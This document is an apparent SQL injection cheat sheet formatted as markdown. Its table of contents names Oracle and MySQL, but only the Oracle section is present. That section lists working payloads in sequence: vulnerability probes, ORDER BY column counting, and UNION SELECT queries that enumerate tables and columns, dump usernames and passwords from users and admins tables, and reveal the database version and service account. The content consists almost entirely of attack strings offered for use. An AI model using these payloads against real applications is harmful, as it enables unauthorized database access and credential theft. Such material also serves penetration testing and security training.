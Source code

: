# Cheatsheets - SQL Injection
## Table of Contents
* [Oracle](#oracle)
* [MySQL](#mysql)

## Oracle
Check for a SQLi vulnerability
```bash
' 
```

Check the quality of SQLi vulnerability
```bash
' or 1=1 -- 
```

Get the number of columns of a table (increment the number until there is an error; ex: if 4 triggers an error, there are 3 columns).
```sql
' ORDER BY 1 -- 
' ORDER BY 2 -- 
' ORDER BY 3 -- 
' ORDER BY 4 -- 
```

Get all table names (look for user/admin tables).
```sql
' UNION ALL SELECT table_name,null,null FROM all_tables --
```

Get all possible column names within the entire database (look for values like "username" and "password").
```sql
' UNION ALL SELECT column_name,null,null FROM user_tab_cols --
```

Get usernames and passwords from the users table.
```sql
' UNION ALL SELECT username,password,null FROM users --
```

Get usernames and passwords from the admins table.
```sql
' UNION ALL SELECT username,password,null FROM admins --
```

Get the database software version.
```sql
' UNION ALL SELECT banner,null,null FROM v$version --
```

Get the database service account name.
```sql
' UNION ALL SELECT user,null,null FROM dual --
```

